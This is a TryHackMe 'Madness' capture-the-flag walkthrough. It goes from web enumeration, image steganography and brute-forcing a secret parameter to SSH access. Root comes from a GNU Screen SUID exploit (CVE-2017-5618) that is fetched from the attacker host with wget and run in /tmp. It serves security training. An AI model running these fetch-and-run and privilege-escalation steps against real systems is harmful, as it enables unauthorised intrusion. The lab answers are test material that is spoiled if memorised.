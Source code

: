 # [Madness](https://tryhackme.com/room/madness)

## Will you be consumed by Madness?

# Flag Submission

### user.txt

_There's something ROTten about this guys name!_

1. Enumerate services with `nmap` to identify open ports and running services

```bash
nmap IP
```

![SCREEN01](https://github.com/user-attachments/assets/abd5fab9-d250-44af-935a-e5d7c5013d78)

2. Exploring the web server, examine the source code of the main page at `http://IP/`. There we find some interesting comments and a reference to `thm.jpg`. Download the image for further examination

```bash
wget http://IP/thm.jpg
```

![SCREEN02](https://github.com/user-attachments/assets/e72326b2-e950-4f22-be8a-a9337ff51b45)

3. The downloaded image appears broken and won't display properly. Examine the file header to identify the issue
   - The file has PNG magic numbers but a JPG extension, causing the display issue

```bash
xxd -l 24 thm.jpg
```

![SCREEN03](https://github.com/user-attachments/assets/9c2d51d6-18b3-433d-8af6-e8537d9ee361)

4. Fix the file by changing the magic numbers from PNG format to JPG format using a hex editor

```bash
hexedit thm.jpg
```

![SCREEN04](https://github.com/user-attachments/assets/2143c4d3-dd03-41a1-9bfc-031709b649a6)

5. After fixing the image, opening it reveals a hidden directory path: **/th1s_1s_h1dd3n**

![SCREEN05](https://github.com/user-attachments/assets/29e33eaa-bfba-4699-be6f-8ef7c1a1775c)

6. Navigating to `http://IP/th1s_1s_h1dd3n/` shows a page with a secret input. In the page source, we find a comment mentioning that the secret value is a number between 0 and 99

![SCREEN06](https://github.com/user-attachments/assets/e6f01682-ef81-4444-a699-8eb9be63395c)

7. The secret can be submitted via the `secret` parameter by adding `?secret=` to the URL. We can use Burp Suite's Intruder feature to brute force values from 0 to 99

![SCREEN07](https://github.com/user-attachments/assets/1e98e564-d61a-4299-b76c-24eae09d71ed)

8. In the Intruder attack results, examine the response length to identify the correct secret value
   - After submitting the correct secret value (73), we receive a string: **y2RPJ4QaPF!B**

![SCREEN08](https://github.com/user-attachments/assets/f1fac380-e209-478e-a4bf-3bfb66826bf3)

9. Return to the fixed `thm.jpg` image and use steghide to extract hidden data using **y2RPJ4QaPF!B** as the password

```bash
steghide extract -sf thm.jpg
```

![SCREEN09](https://github.com/user-attachments/assets/f3568f68-d16b-4005-af52-f0414f66e3d3)

10. The hint mentioned something "ROTten" - this suggests ROT13 encoding. Decode the username using ROT13 in [CyberChef](https://gchq.github.io/CyberChef/) to get the actual username: **joker**

![SCREEN10](https://github.com/user-attachments/assets/95d85966-7534-4d7f-80fb-1ff2badabe27)

11. For the password, we need to examine another image linked in the room description: `https://i.imgur.com/5iW7kC8.jpeg`. Download and extract hidden content with `steghide` without requiring a password

```bash
steghide extract -sf 5iW7kC8.jpg
```

![SCREEN11](https://github.com/user-attachments/assets/f5da605b-1c44-48b9-938d-bb2de6c066c3)

12. Now with both username and password, connect via SSH and retrieve the user flag

```bash
ssh joker@IP
cat user.txt
```

![SCREEN12](https://github.com/user-attachments/assets/1e04c744-5f46-4cfe-a7af-1388dff42f05)

---

### root.txt

1. Check for files with SUID permissions to identify potential privilege escalation vectors
   - The results show several binaries with SUID bit set, and `/bin/screen` looks particularly interesting as it's not commonly set with SUID permissions

```bash
find / -perm -u=s -type f 2>/dev/null
```

![SCREEN13](https://github.com/user-attachments/assets/67251758-d1a3-47d9-9db9-9c3a6ef6a352)

3. Research reveals that GNU Screen 4.5.0 has a known local privilege escalation vulnerability (CVE-2017-5618). Download the exploit from [Exploit-DB](https://www.exploit-db.com/exploits/41154) to your attacker machine and transfer it to the victim's `/tmp` directory

```bash
# On attacker machine
python3 -m http.server
```

```bash
# On victim machine
cd /tmp/
wget http://IP:8000/41154.sh
chmod +x 41154.sh
./41154.sh
whoami
cat /root/root.txt
```

![SCREEN14](https://github.com/user-attachments/assets/06d814a3-8b24-41ed-a56c-21fa70baa4a3)
